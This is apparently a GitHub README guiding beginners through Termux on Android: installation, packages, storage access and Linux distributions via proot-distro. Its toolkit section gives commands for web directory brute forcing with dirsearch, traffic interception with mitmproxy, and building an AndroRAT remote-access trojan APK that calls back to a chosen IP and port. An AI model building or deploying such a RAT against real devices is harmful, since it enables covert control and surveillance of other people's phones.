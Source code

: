 # 📱 About Termux – Complete Guide for Beginners & Power Users

> This repository is a complete, beginner-friendly guide to using **Termux** on Android. Learn how to set it up, install powerful tools, and use Linux like a pro – all from your phone, with or without root access.

---

## 📚 Table of Contents

1. [📦 What is Termux?](#-what-is-termux)
2. [🔧 Initial Setup](#-initial-setup)
3. [🛠️ Essential Tools](#️-essential-tools)
4. [📂 Storage Access](#-storage-access)
5. [💻 Linux in Termux (Proot-Distro)](#-linux-in-termux-proot-distro)
6. [🧰 Toolkits & Use Cases](#-toolkits--use-cases)
7. [⚠️ Troubleshooting & Tips](#️-troubleshooting--tips)
8. [🧠 Contribute](#-contribute)

---

## 📦 What is Termux?

**Termux** is an Android terminal emulator and Linux environment app that doesn’t require rooting. You can:

- Run Linux packages and shells
- Install programming environments (Python, Node, etc.)
- Run SSH servers, Git, Kali, Ubuntu, and more!

🔗 [Official Termux F-Droid Page](https://f-droid.org/packages/com.termux/)

---

## 🔧 Initial Setup

1. ✅ **Install Termux from F-Droid** *(Do NOT use Play Store version)*  
   ➤ [https://f-droid.org/packages/com.termux/](https://f-droid.org/packages/com.termux/)

2. ✅ **Update and Upgrade Packages**
```bash
pkg update && pkg upgrade -y
```

3. ✅ Install Basic Essentials


```
pkg install python git curl wget nano openssh -y
```

4. ✅ Fix Mirrors (if slow)


```
termux-change-repo
```

---

🛠️ Essential Tools

Tool	Command	Use Case
```
python	pkg install python	Scripting & automation
git	pkg install git	Clone GitHub repositories
proot-distro	pkg install proot-distro	Install full Linux distributions
openssh	pkg install openssh	SSH server/client
termux-api	pkg install termux-api	Access Android functions

```

---

📂 Storage Access

To access your internal/shared storage (DCIM, Downloads, etc.):
```
termux-setup-storage
```

A popup will request permission. Tap Allow.

Access shared storage via:

```
cd /storage/emulated/0/
```

---

💻 Linux in Termux (Proot-Distro)

Want full Linux inside Termux? Use proot-distro.

✅ Install Ubuntu / Kali / Fedora:
```
proot-distro install ubuntu
proot-distro login ubuntu
```

Now you’re inside Ubuntu. You can install tools with apt, set up xfce, mitmproxy, dirsearch, and more.


---

🧰 Toolkits & Use Cases

🔎 Dirsearch (Web Directory Brute Force)
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip install -r requirements.txt
python3 dirsearch.py -u https://example.com -e php,html
```

---

🔍 mitmproxy (HTTP/HTTPS Sniffer)
```
pip install mitmproxy
mitmproxy --listen-port 8080
```

Use to inspect mobile traffic. For advanced use, install cert on second device, set proxy, and run HTTP server.


---

🐍 AndroRAT (Educational RAT)
```
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
python3 androRAT.py --build -i <your_ip> -p 8000 -o rat.apk
```

⚠️ For educational use only. Never use without consent.


---

⚠️ Troubleshooting & Tips

Issue	Fix Command

Network tools not working	pkg install net-tools
Package errors or 403s	termux-change-repo
Storage access denied	termux-setup-storage and restart Termux
Slow repo or package install	Use mirrors via termux-change-repo
Permission denied errors	Ensure files have exec perms: chmod +x



---

🧠 Contribute

Have useful commands or scripts?
PRs and issues are welcome!


---

📢 Stay Updated

🔗 Termux Wiki

🔗 r/termux subreddit

🔗 Awesome-Termux List



---

> Made with 💻 by @mikey-7x – Keep hacking, keep learning!



---

### ✅ Features of This README:
- Clean layout
- Proper sectioning with emojis
- Useful quick-copy code blocks
- Beginner and advanced tips
- Expandable with more tools/scripts



